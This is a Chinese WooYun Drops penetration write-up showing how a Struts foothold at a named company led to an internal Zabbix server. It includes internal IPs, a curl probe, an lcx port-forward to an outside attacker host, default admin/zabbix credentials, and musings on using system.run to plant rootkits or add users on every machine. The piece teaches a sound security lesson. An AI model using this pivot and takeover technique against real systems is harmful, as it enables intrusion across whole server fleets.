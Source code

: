 # 当渗透遇到 zabbix--小谈 zabbix 安全

2013/01/16 11:19 | [hongygxiang](http://drops.wooyun.org/author/hongygxiang "由 hongygxiang 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

**0x00 背景**

zabbix 近几年得到了各大互联网公司的认可，其强大的功能得到了各位运维攻城狮的亲耐。

公司本身也用 zabbix 做监控，对其属性也有所了解。不得不说 zabbix 除了监控强大之外，还有一个很好的用处就是在你忘记 root 密码的时候，重置服务器 root 密码，朋友们也一致认为 zabbix 是一个无比强大的超级后门。

打开了一扇门，另外一扇门就会随之开启，大伙都知道 zabbix 有 system.run 模块，这是可以执行任意命令的。不过还得看 agent 是以什么权限启的，根据我自己的观察，大伙为了方便这个模块都会启用，而且一般情况下都会用 root 跑。不用 root 跑会有很多麻烦事情。在这样的情况下，某些时候不得不说也方便了方便黑客更好的到访,这里很多朋友都报着这样的想法，zabbix 在内网，外网访问不了，即使有注入或弱口令或默认口令黑客也无法访问，下面用实例来告诉你这样的想法是错的，不管你信不信，反正我是信了。

**0x01 细节**

出场的是 tom 在线

漏洞源头 [`fm.tom.com/login-share/tomlogin/login.action`](http://fm.tom.com/login-share/tomlogin/login.action) struts 漏洞，struts 漏洞在现在看来实在太无技术含量，对于漏洞源头，就不需解释太多

在查询端口的时候，agent 的 10050 端口会与 server 的通讯。（在有 proxy 的情况下 zabbix_server 不太确认）

确认 zabbix_server 为:172.24.162.38

一般在安装的时候会留下 zabbix_agent 的安装脚本，详细信息可以到脚本里面看到

ifconfig

ip 信息如下(这个是作为入侵到更多服务器的跳板)

```
eth2 Link encap:Ethernet HWaddr 00:18:8B:83:1B:45 

inet addr:172.24.205.15 Bcast:172.24.205.255 Mask:255.255.255.0

UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1

RX packets:81041 errors:0 dropped:0 overruns:0 frame:0

TX packets:60 errors:0 dropped:0 overruns:0 carrier:0

collisions:0 txqueuelen:1000 

Interrupt:16 Memory:f8000000-f8012800 
```

只有内网，首先要确认思路，在没有外网 IP 的情况下，用 IPtables 做一个 nat 完全不能达到我们想要的需求，因为 zabbix 我们需要用 IEl 来访问，只能先做内网的 nat，然后把端口转到公网的某个服务器上去

先确认些信息

```
curl http://172.24.162.38/zabbix/ #返回的是 zabbix 登陆页 
```

确认好上面的一些信息后，接下来做一个 nat

```
0.0.0.0 98 172.24.162.38 80 
```

看下效果

这里会监听 98 端口，意思是当有访问本地 98 端口的时候自动转向 172.24.162.38 的 80 端口，接下来只需要将本地的 98 端口转发至公网的某个服务器就可以正常访问了

```
端口转发我用 lcx(linux 版)，这破玩意会经常断，不太好用。

    ./lcx -m 3 -h1 youip -p1 786 -h2 127.0.0.1 -p2 98<br /> 
```

转发好之后就可以正常访问了

```
<a>http://youip:port/zabbix/</a> ("http://youip:port/zabbix/") (这里一定要记得加后面的/zabbix/，它本身就带了这个目录) 
```

![](img/img1_u72_jpg.jpg)

这个界面是我们想要的结果

```
login:admin/zabbix (内网的 zabbix 大伙往往不喜欢改密码，都认为在内网很安全) 
```

![](img/img2_u52_jpg.jpg)

图截不完，下面其实还有很多。

![](img/img3_u47_jpg.jpg)

接下来，可以有邪恶的想法了。添加一个监控项，给所有机器安装一个 rootkit？还是全部机器添加一个用户？不要太邪恶了，只讨论思路，这样的边界问题很容易被忽略，但是带来的后果往往也是最大的。

**Tags:** [zabbix](http://drops.wooyun.org/tag/zabbix), [安全运维](http://drops.wooyun.org/tag/%e5%ae%89%e5%85%a8%e8%bf%90%e7%bb%b4), [渗透测试](http://drops.wooyun.org/tag/%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95)

版权声明：未经授权禁止转载 [hongygxiang](http://drops.wooyun.org/author/hongygxiang "由 hongygxiang 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [各种环境下的渗透测试](http://drops.wooyun.org/tips/411)
*   [公共无线安全——FakeAP 之 WiFi 钓鱼](http://drops.wooyun.org/tips/112)
*   [Android Broadcast Security](http://drops.wooyun.org/tips/4393)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)
*   [Android Activtity Security](http://drops.wooyun.org/tips/3936)
*   [clickjacking 漏洞的挖掘与利用](http://drops.wooyun.org/web/3801)